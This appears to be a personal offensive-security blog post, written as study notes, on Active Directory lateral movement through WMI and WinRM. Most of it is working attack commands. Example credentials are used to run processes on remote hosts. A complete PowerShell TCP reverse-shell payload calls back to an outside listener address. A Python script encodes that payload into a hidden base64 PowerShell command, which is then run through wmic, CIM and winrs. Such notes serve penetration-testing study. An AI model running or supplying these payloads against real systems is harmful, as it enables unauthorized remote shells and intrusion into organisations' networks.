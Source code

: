 ```yaml
---
layout: post
title: Active Directory Lateral Movement
titledate: 09/29/23
tags: ["infosec", "offsec", "ad", "powershell"]
---
```


#### lateral with wmi and winrm

#### wmi

here we use wmic to create a process

    C:> wmic /node:192.168.1.1 /user:jim /password:pass123! process call create "calc"

replicating the same attack in powershell

```powershell
$username = 'jim';
$password = 'pass123!';
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
$options = New-CimSessionOption -Protocol DCOM
$session = New-Cimsession -ComputerName 192.168.1.1 -Credential $credential -SessionOption $Options 
$command = 'calc';
```

    PS> Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine =$Command};

to create a reverse shell we can ditch the calc and insert our useable shellcode

the following is a python script that creates a reverse shell in powershell and base64 encodes it

```python
import sys
import base64

payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.2.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()

print(cmd)
```
when run this script will print the powershell command that can be added to the $command = part above 

now when we edit the ip and open a nc listener on 443 we will get a reverse shell

#### winrm

another remote management 

winrm only works for domain users and sends xml over 5985 and 5986 http/https

    C:> winrs -r:files04 -u:jen -p:pass123!  "cmd /c hostname & whoami" 

to execute our reverse shell we just addthe powershell -nop -w hidden -e reverseshellbase64

powershell also has winrm functionality

    PS:shawn> $username = 'jim';
    PS> $password = 'pass123!';
    PS> $secureString = ConvertTo-SecureString $password -AsPlaintext -Force;
    PS> $credential = New-Object System.Management.Automation.PSCredential $username, $secureString;
    PS> New-PSSession -ComputerName 192.168.1.1 -Credential $credential

so now we can enter the newly created session

    PS> Enter-PSSession 1
    PS:jim>

### NOTE: powershell seems to work better

